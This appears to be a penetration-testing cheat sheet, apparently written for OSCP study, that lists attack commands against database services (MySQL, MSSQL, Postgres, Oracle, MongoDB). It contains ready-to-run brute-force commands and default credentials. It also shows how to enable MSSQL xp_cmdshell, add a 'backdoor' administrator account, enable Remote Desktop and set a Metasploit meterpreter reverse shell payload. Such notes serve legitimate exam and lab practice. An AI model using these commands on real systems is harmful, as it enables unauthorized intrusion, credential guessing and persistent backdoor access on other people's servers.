




# Databases


## [3306,MySQL]
**Links**
https://recipeforroot.com/mysql-to-system-root/
https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/
https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/

https://sushant747.gitbooks.io/total-oscp-guide/list_of_common_ports.html
https://www.electrictoolbox.com/shell-commands-mysql-command-line-client/
https://highon.coffee/blog/lord-of-the-root-walkthrough/

Very often has a root user, can be brute forced

```shell
nmap {nmap_extra} -sV -p {port} --script="(mysql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)"
nmap -p 3306 --script mysql-brute --script-args userdb=/usr/share/wordlists/mysql_users.txt,passdb=/usr/share/wordists/rockyou.txt -vv 192.168.31.139
nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 INSERTIPADDRESS -p 3306
mysql -h 192.168.100.138 -p
```


**If you have a local shell try this bash script to override for the root account(worth a try)**
while [ 1 ];do mysql -u root --password=123; done

**Connect to MySQL**
mysql -u root -p


## [1433,1434,mssql] UDP 1433,1334

**MS SQL Server Enumeration**
https://www.hackingarticles.in/mssql-peneration-testing-using-nmap/
https://www.adampalmer.me/iodigitalsec/2013/08/10/accessing-and-hacking-mssql-from-backtrack-linux/
http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/
https://www.google.com/search?client=safari&rls=en&q=mssql+default+passwords&ie=UTF-8&oe=UTF-8
http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

`nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

```bash
nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156
sqsh -U <username> -P <password> -S {address}:{port}
sqsh -S 192.168.1.101 -U sa -P password

sqsh -S 10.0.0.1 -U sa -P fdasjkl3 -C "SELECT name FROM master.dbo.sysdatabases"
```

**Leverage xp_cmdshell to get a shell**
**If xp_cmdshell is not turned on then you have to enable it. This requires "advanced options" to be on:**

```bash
sqsh -S <ip_address> -U sa -P <password>
exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
xp_cmdshell ‘dir C:\’
go


xp_cmdshell 'net user bob password /add'
go
xp_cmdshell 'net localgroup Administrators bob /add'
go
```


**Enable Remote Desktop**
`xp_cmdshell 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'`
`go`


**Use Nmap to remotely execute commands through MS-SQL**

```shell
nmap -Pn -n -sS –script=ms-sql-xp-cmdshell.nse <victim_ip> -p1433 –script-args mssql.username=sa,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd=”net user backdoor backdoor123 /add”
nmap -Pn -n -sS –script=ms-sql-xp-cmdshell.nse 10.11.1.31 -p1433 –script-args mssql.username=<sql_user>,mssql.password=<sql_password>,ms-sql-xp-cmdshell.cmd=”net localgroup administrators backdoor /add”
```

**Metasploit:**

```shell
msf > use auxiliary/scanner/mssql/mssql_ping
msf > use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_exec

msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```


## Postgres 5432,5433
**No root user but psql or postgres**
`psql -h 192.168.100.138 -p 5433 -U root -w`
`hydra -l postgres -P weak.txt postgres://192.168.100.138`
`psql -h 192.168.100.138 -p 5433 -U postgres`


## Oracle port 1521,1541

https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573
https://highon.coffee/blog/penetration-testing-tools-cheat-sheet/#oracle
https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener
https://www.doyler.net/security-not-included/oracle-command-execution-sys-shell
https://security.stackexchange.com/questions/95729/oracle-sql-injection-reverse-shell

1. Enumerate version info (search for known vulns)
2. Bruteforce TNS listener communication (not always needed)
3. Enumerate/Bruteforce SID names (like database names)
4. Bruteforce credentials for valid SID name discovered
5. Try to execute code 


Default passwords https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm
`tnscmd10g status -h INSERTIPADDRESS`
a lot of default passwords available

```bash
nmap {nmap_extra} -sV -p {port} --script="(oracle* or ssl*) and not (brute or broadcast or dos or external or fuzzer)"
oscanner -v -s {address} -P {port}

nmap {nmap_extra} -sV -p {port} --script="oracle-sid-brute"
patator oracle_login host={address} port={port} user=COMBO00 password=COMBO01 0=/usr/share/seclists/Passwords/Default-Credentials/oracle-betterdefaultpasslist.txt -x ignore:code=ORA-01017 -x ignore:code=ORA-28000'
hydra -f -I -C /usr/share/seclists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt mssql://{ip}:{port}
```


**Port 2100 - Oracle XML DB**
sys:sys
scott:tiger










## No SQL
Often means no authentication, brute force is fast because design  of databases like reddis

### [27017,mongod]
`nmap {nmap_extra} -sV -p {port} --script="mongodb*"`
You may encounter NoSQL instances like MongoDB in your OSCP journies (`/cgi-bin/mongo/2.2.3/dbparse.py`).  NoSQLMap can help you to automate NoSQLDatabase enumeration.

**NoSQLMap Examples**


**NoSQLMap Installation**

```bash
git clone https://github.com/codingo/NoSQLMap.git
cd NoSQLMap/
ls
pip install couchdb
pip install pbkdf2
pip install ipcalc
python nosqlmap.py --help
```

/usr/share/wordlists/SecLists/Passwords/Default-Credentials/mssql-betterdefaultpasslist.txt
hydra -C default_accounts.txt ftp://localhost

### MySql, Oracle, PostgreSQL, SQLlite, MS-Sql bruteforcer and database browser
`hexorbase`
`nmap {nmap_extra} -sV -p {port} --script="(ms-sql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" --script-args="mssql.instance-port={port},mssql.username=sa,mssql.password=sa"`

## [50000,DB2]